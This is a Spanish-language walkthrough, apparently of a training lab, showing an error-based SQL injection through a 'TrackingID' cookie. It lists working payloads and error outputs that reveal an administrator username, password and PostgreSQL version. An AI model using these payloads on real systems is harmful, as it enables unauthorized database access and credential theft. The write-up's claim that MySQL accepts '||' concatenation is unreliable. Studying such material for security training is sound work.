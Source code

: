 # **Visible Error-Based SQL Injection en PostgreSQL/MySQL Databases**  

Este tipo de ataque aprovecha los mensajes de error visibles que la base de datos devuelve en las respuestas HTTP. A diferencia del Blind SQL Injection, aquí podemos leer directamente los errores generados, lo que nos permite extraer información de manera más rápida y precisa.  

El flujo del ataque sigue estos pasos:  

1. **Confirmar la vulnerabilidad**  
2. **Identificar el motor de base de datos**  
3. **Listar información sensible a partir de los errores**  

---

## **1. Confirmar la Vulnerabilidad en el Parámetro TrackingID**  

El parámetro `TrackingID` se usa en una consulta SQL que probablemente tenga la siguiente forma:  

```sql
SELECT * FROM tracking WHERE id = 'input'
```  

Para verificar si es vulnerable a SQL Injection, probamos con una comilla simple:  

- **Prueba 1:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Mensaje de error:**  
    ```sql
    Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'V03gUv2TBm3wvMMD''. Expected char
    ```
  - **Explicación:** Se rompe la consulta porque la comilla simple no está escapada, lo que indica que podría ser vulnerable a SQL Injection.  

- **Prueba 2:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD''
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:** Al agregar dos comillas (`''`), se cierra correctamente la cadena en SQL, confirmando que la entrada no está siendo escapada adecuadamente.  

---

## **2. Identificar el Motor de Base de Datos**  

Para determinar qué base de datos se está utilizando, probamos con concatenaciones:  

- **Prueba 1:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD'||(SELECT '')||'
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:** Esta concatenación es válida en algunos motores como PostgreSQL y MySQL.  

- **Prueba 2:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD'||(SELECT ')||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Mensaje de error:**  
    ```sql
    Unterminated string literal started at position 67 in SQL SELECT * FROM tracking WHERE id = 'V03gUv2TBm3wvMMD'||(SELECT ')||''. Expected char
    ```
  - **Explicación:** La concatenación está mal cerrada, lo que genera un error de sintaxis.  

- **Conclusión:**  
  - No es **OracleDB**, ya que **no** se requiere `FROM dual`.  
  - Es **MySQL o PostgreSQL**, ya que la concatenación con `||` es aceptada.  

---

## **3. Extracción de Información Utilizando CAST()**  

El uso de `CAST()` nos permite forzar errores visibles que contienen información sensible.  

### **Uso de CAST() para Confirmar la Inyección**  

- **Prueba con una consulta simple:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD' and 1=CAST((select 1) as int)--
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:**  
    - `1=CAST((SELECT 1) AS int)` se evalúa correctamente, por lo que la consulta se ejecuta sin errores.  
    - Esto confirma que podemos usar `CAST()` para extraer información.  

---

### **Identificar el Nombre de Usuario en la Base de Datos**  

- **Prueba con `username` en la tabla `users`:**  
  ```sql
  TrackingID=V03gUv2TBm3wvMMD' and 1=CAST((select username from users) as int)--
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Mensaje de error:**  
    ```sql
    Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'V03gUv2TBm3wvMMD' and 1=CAST((select username from users) as'. Expected char
    ```
  - **Explicación:**  
    - La consulta parece truncada, posiblemente debido a un **límite de caracteres** en la cookie.  

- **Solución:** Eliminar valores innecesarios para hacer espacio en la consulta:  
  ```sql
  TrackingID=' and 1=CAST((select username from users) as int)--
  ```
  - **Nuevo error:**  
    ```sql
    ERROR: more than one row returned by a subquery used as an expression
    ```
  - **Explicación:**  
    - El subquery `SELECT username FROM users` devuelve múltiples filas, lo que causa un error.  
    - Necesitamos limitar el resultado a una sola fila.  

- **Solución usando `LIMIT 1`:**  
  ```sql
  TrackingID=' and 1=CAST((select username from users limit 1) as int)--
  ```
  - **Nuevo error:**  
    ```sql
    ERROR: invalid input syntax for type integer: "administrator"
    ```
  - **Explicación:**  
    - El error revela que la primera entrada en `users.username` es **"administrator"**.  

---

### **Extraer la Contraseña del Usuario Administrator**  

- **Prueba con `password`:**  
  ```sql
  TrackingID=' and 1=CAST((select password from users limit 1) as int)--
  ```
  - **Nuevo error:**  
    ```sql
    ERROR: invalid input syntax for type integer: "zpv5dpjtn2ji7mqu93es"
    ```
  - **Explicación:**  
    - Se obtiene la contraseña del primer usuario: **"zpv5dpjtn2ji7mqu93es"**.  

---

## **4. Confirmar el Motor de Base de Datos**  

Para confirmar si es PostgreSQL o MySQL, consultamos la versión:  

```sql
TrackingID=' and 1=CAST((select version()) as int)--
```
- **Respuesta:** HTTP **500 Internal Server Error**  
- **Mensaje de error:**  
  ```sql
  ERROR: invalid input syntax for type integer: "PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit"
  ```
- **Explicación:**  
  - El mensaje de error revela que la base de datos es **PostgreSQL 12.20**.  

---

## **Conclusión**  

Este ataque de **Visible Error-Based SQL Injection** permitió extraer información directamente de los mensajes de error visibles en PostgreSQL:  

✔️ Confirmamos la vulnerabilidad en el parámetro `TrackingID`.  
✔️ Identificamos PostgreSQL como el motor de base de datos.  
✔️ Extraímos el primer usuario (`administrator`) y su contraseña (`zpv5dpjtn2ji7mqu93es`).  

Este tipo de SQL Injection es altamente efectivo cuando la aplicación muestra los errores de la base de datos en las respuestas HTTP, permitiendo la extracción de datos sin necesidad de técnicas más avanzadas como Blind SQLi.

